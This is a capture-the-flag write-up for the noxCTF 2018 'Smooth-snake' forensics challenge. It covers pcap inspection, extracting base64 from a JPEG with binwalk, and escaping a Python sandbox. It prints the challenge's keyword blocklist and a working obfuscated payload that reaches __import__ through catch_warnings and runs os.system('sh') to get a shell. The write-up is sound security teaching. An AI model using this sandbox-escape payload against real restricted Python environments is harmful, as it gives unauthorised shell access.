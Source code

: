 # noxCTF 2018 : Smooth-snake

**category** : forensics

**points** : 804

**solves** : 21

## write-up

This challenges has many small challenges...

First we got a pcap

I use wireshark to open it and sort it by protocol

Look at the DNS request and HTTP request to know what they are doing

There are many unrelevant sites like youtube...

I find `flag.html` and it said `I Have The Flag, but only the snake know how to get it. Try to find the snake pic`

So I download `snake.jpg` from pcap

Use `binwalk` to check `snake.jpg` and find some base64 text at the end of jpg file

extract and decode the base64 text will get `file.py`

And guessing LEET = 1337 will get me a string `my server's port moved to p+y+t+h+o+n`

So I guess it means there is a server open at port `sum(map(ord, 'python')) == 674`

And the ip is the destination ip of the packet that get me `snake.jpg`

`nc 18.223.150.0 674` give me a python sandbox challenge...

```
._'\:
import
os
sys
open
eval
exec
compile
bytes
type
frozenset
vars
chr
locals
if
try
except
```

All of the above are forbidden words

Without `.` to call method, we can use `getattr` instead

Without `__import__`, we can use `catch_warnings` in `{}.__class__.__base__.__subclasses__()`

`{}.__class__.__base__.__subclasses__()[[i.__name__ == "catch_warnings" for i in {}.__class__.__base__.__subclasses__()].index(True)]` this will give me `catch_warnings`

`{}.__class__.__base__.__subclasses__()[[i.__name__ == "catch_warnings" for i in {}.__class__.__base__.__subclasses__()].index(True)]()._module.__builtins__["__import__"]("os").system("sh")` this will give me shell

Then we just need to change `.` to `getattr`, and `_` to `dir(0)[0][0]`

Final payload : `getattr(getattr(getattr(getattr(getattr(getattr((), dir(0)[0][0]*2+"class"+dir(0)[0][0]*2), dir(0)[0][0]*2+"base"+dir(0)[0][0]*2), dir(0)[0][0]*2+"subcl"+"asses"+dir(0)[0][0]*2)()[getattr([getattr(i, dir(0)[0][0]*2+"name"+dir(0)[0][0]*2) == "catch"+dir(0)[0][0]+"warnings" for i in getattr(getattr(getattr((), dir(0)[0][0]*2+"class"+dir(0)[0][0]*2), dir(0)[0][0]*2+"base"+dir(0)[0][0]*2), dir(0)[0][0]*2+"subcl"+"asses"+dir(0)[0][0]*2)()], "index")(True)](), dir(0)[0][0]+"module"), dir(0)[0][0]*2+"builtins"+dir(0)[0][0]*2)[dir(0)[0][0]*2+"imp"+"ort"+dir(0)[0][0]*2]("o"+"s"), "sy"+"stem")("sh")`

`noxCTF{v3n0m_pyc4p}`

# other write-ups and resources


